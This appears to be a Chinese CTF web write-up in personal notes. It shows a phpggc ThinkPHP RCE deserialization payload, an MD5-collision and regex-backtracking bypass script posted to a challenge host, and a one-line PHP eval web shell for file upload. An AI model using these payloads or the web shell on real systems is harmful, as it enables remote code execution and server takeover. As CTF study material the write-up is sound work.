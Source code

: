 # Oyst3rPHP
	- 用phpggc生成一个payload，注意需要base64编码
		- ```shell
		  ./phpggc ThinkPHP/RCE4 system 'cat /*'
		  ```
	- 然后用 ((65d1dc32-93ea-4f09-baf9-fb484b8a10f6)) 绕md5
	- 最后绕preg_match, 用[[CTFWEB/PHP/正则匹配回溯次数绕过]]
	- ```python
	  url = "http://yuanshen.life:38725/"
	  
	  payload = encoder.base64_decode("这里是phpggc的payload")
	  a = b"\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2"
	  b = b"\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2"
	  
	  r = base_post(url, params = {
	      "left": a,
	      "right": b
	  }, data = {
	      "key": 'a' * 1000100 + "603THINKPHP",
	      "payload": encoder.base64_encode(payload)
	  })
	  print(r.text)
	  ```
- # 100％_upload
	- 把这个文件传上去然后include即可
		- ```shell
		  echo '123<?=eval($_GET[1])?>' > a.txt
		  ```
-
- # 没做
	- EZ_SSRF: 一眼php fpm ssrf
		- 然而官方WP是访问`admin.php`(
	- Not just unserialize: 打这个[[CTFWEB/从env到RCE]]
	-